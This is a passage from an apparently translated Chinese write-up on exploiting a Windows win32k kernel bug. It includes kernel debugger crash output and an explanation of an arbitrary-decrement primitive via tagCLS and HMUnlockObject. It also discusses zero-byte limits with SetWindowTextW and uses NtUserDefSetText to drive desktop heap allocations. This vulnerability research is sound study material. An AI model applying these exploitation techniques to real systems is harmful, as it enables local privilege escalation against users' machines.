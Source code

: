 ```
Access violation - code c0000005 (!!! second chance !!!)
win32k!HMUnlockObject+0x8:
982fdcc1 ff4804                dec      dword ptr [eax+4]
kd> r
eax=0000dea9 ebx=ffa1b7b8 ecx=ff910000 edx=ffa4f8e8 esi=ffa4f8e8 edi=0000dea9
eip=982fdcc1 esp=b27c6adc ebp=b27c6adc iopl=0                    nv up ei pl nz na pe nc
cs=0008 ss=0010 ds=0023 es=0023 fs=0030 gs=0000                               efl=00010206
win32k!HMUnlockObject+0x8:
982fdcc1 ff4804                dec      dword ptr [eax+4]        ds:0023:0000dead=????????
```
偏移 0x58 是这个 tagCLS 对象的 spicnSm 成员，该成员在执行 HMUnlokObject 操作是会被引用。该操作用于解锁（自减）给定对象的引用计数。因此，这将导致造成任意自减的场景。
# 4. 利用漏洞

有几个可以用来利用这个漏洞的方法。其中著名的技巧是反转位于 tagCLS【8】中的
CSF_flags 结构的 Server Side Proc 域。
不过，我决定使用一种会引入一个额外的 tagWND 结构的方法。
## 4.1. 单字零的问题

在利用自减一条件之前，我们还需要解决几个障碍。
由于宽字符的限制，在使用 SetWindowTextW 的时有零指针与单字零是不可能的。
这是个问题我们需要在伪造的 tagCLS 块中的零指针来正常的退出存在漏洞的代码路径。
而且，我们通过 SetWindowTextW 技巧只能控制自减的最后两个字节。
这在 32 位架构几乎没有任何用处。

不妨在调用 SetWindowTextW 函数时设置一个断点到 RtlAllocateHeap 上。

```
kd> ba e 1 nt!RtlAllocateHeap
kd> bl
  0 e 82ad3ee7 e 1 0001 (0001) nt!RtlAllocateHeap
kd> g
Breakpoint 0 hit
nt!RtlAllocateHeap:
82ad3ee7 8bff                  mov       edi,edi
kd> kb
ChildEBP RetAddr       Args to Child
b276ca9c 9830690a fea00000 00000000 0000005c nt!RtlAllocateHeap
b276cab4 982eb6a4 86938048 0000005c 00000004 win32k!DesktopAlloc+0x25
b276caf8 982dd499 fea226d8 0000005c 2a35ba52 win32k!DefSetText+0x8a
b276cb70 982eb611 fea226d8 0000000c 00000000 win32k!xxxRealDefWindowProc+0x111
b276cb88 982ef86b fea226d8 0000000c 00000000 win32k!xxxWrapRealDefWindowProc+0x2b
```

看似 win32k!DefSetText 可以用来触发桌面堆的分配。
具体讲，该函数可以通过直接调用 NtUserDefSetText 系统调用
由 user32!NtUserDefSetText【4】调用到：

```
.text:77D4265A ; __stdcall NtUserDefSetText(x, x)
.text:77D4265A _NtUserDefSetText@8 proc near                       ; CODE XREF:
_DefSetText(x,x,x)+33p
.text:77D4265A                         mov       eax, 116Dh
.text:77D4265F                         mov       edx, 7FFE0300h
.text:77D42664                         call      dword ptr [edx]
.text:77D42666                         retn      8
.text:77D42666 _NtUserDefSetText@8 endp
```
